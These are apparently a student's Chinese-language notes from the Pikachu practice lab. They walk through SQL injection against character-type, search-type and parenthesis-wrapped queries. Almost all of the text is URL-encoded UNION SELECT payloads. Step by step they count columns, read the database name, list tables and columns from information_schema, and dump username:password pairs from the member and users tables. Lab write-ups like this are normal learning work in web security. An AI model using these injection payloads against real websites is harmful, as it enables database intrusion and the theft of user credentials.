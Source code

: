 `name=vince'+order+by+2%23`// 存在2个字段

`name=vince'+union+select+1,2%23`

`name=vince'+union+select+1,database()%23`// 数据库pikachu

`name=vince'+union+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()%23`// 表名

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220614221914-2afekm5.png)

`name=vince'+union+select+1,group_concat(column_name)+from+information_schema.columns+where+table_name%3d'member'%23`// 猜列名

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220614222149-1eayfvw.png)

`name=vince'+union+select+1,group_concat(username,':',pw)+from+member%23`

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220614222445-8wn5ih1.png)

`name=vince'+union+select+1,count(*)+from+member%2`// 记录数

## 搜索型注入

所执行的sql语句为

`$query="select username,id,email from member where username like '%$name%'";`


`name=allen'+order+by+3%23`// 猜测数据列数，这里必须保证数据库真的有allen这个用户名，否则无法成功

`name=allen'+union+select+1,2,3%23` 

`name=allen'+union+select+1,2,database()%23`

`name=allen'+union+select+1,2,group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()%23`

`name=allen'+union+select+1,2,group_concat(column_name)+from+information_schema.columns+where+table_name%3d'users'%23`

`name=allen'+union+select+1,2,group_concat(username,':',password)+from+users%23`

`?name=allen'+union+select+1,2,length(group_concat(username,':',password))+from+users%23`// 猜测用户密码总长度，可用于盲注

## xx型注入

sql查询语句为

`$query="select id,email from member where username=('$name')";`

所以需要闭合掉括号

`name=vince')+order+by+2%23`// 前提是name的值vince要存在

`name=vince')+union+select+1,2%23`

`name=vince')+union+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()%23`
